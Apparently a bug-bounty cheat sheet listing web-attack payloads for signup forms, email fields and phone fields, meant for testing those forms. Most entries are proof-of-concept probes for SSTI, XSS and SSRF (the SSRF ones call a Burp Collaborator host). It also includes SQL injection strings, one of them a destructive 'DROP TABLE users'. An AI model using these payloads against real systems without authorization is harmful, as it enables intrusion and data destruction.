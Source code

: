 
# Signup feature
**Hunt bugs in signup functionality**

## Duplicate Registration
1. Create 1st account with email ``abc@xyz.com`` and password
2. logout. && Then Create another account with email ``abc@xyz.com`` and with different password
    - If 1st account gets deleted **(Vuln)**

## No Rate Limit
1. Go to signup page and enter details
2. Capture the signup request and send it to repeater
3. Add different emails as payload
    - check whether all response all ``200 OK`` **(Vuln)**

## Dos
1. Go to Signup page and fill details
2. Use long character/string in username,password,firstname field(1000)
    - See if server shows ``500 Internet Server Error`` **(Vuln)**

## SSTI
+ Use Template Injection Payload in User,First Name ``{{7*7}}`` 
    - Check if ``{{7*7}}`` change into ``49``. If server shows ``49`` **(Vuln)**

## XSS
+ Use XSS Payload in First name,last Name,etc..
    - ``<svg/onload=alert(1)>``
---------------------------------
## EMail field
### SSTI
+ ``<%=7*7%>"@example.com``
+ ``test+(${{7*7}})@example.com``
    
### SSRF
+ ``testmail.abc@xyz.burpcollab.net``
+ ``name.abc@[127.0.0.1]``

### XSS
+ ``test+(<script>alert(1)</script>)@example.com``
+ ``"hello<form/><!><details/open/ontoggle=alert(1)>"@gmail.com``
+ ``test@xyz(<script>alert(1)</script>).com``
+ ``"<script>alert(1)</script>"@xyz.com``
+ ``"><svg/onload=alert(1)>"@xyz.com``
 
### SQLI
+ ``"'OR 1=1--'"@example.com``
+ ``"mail');DROP TABLE users;--"@xyz.com``

---------------------------------------------------------------------------

## Phone-numbers Payloads
### XSS 
+ ``+910987654321;phone-context=<script>alert(1)</script>``
### SQLi
+ ``+912345667790;phone-context='OR 1=1;--``
### SSTI
+ ``+919324862346;phone-context={{7*7}}[[3*3]]``
### SSRF 
+ ``+919834763495634;phone-context=burpcollaburl``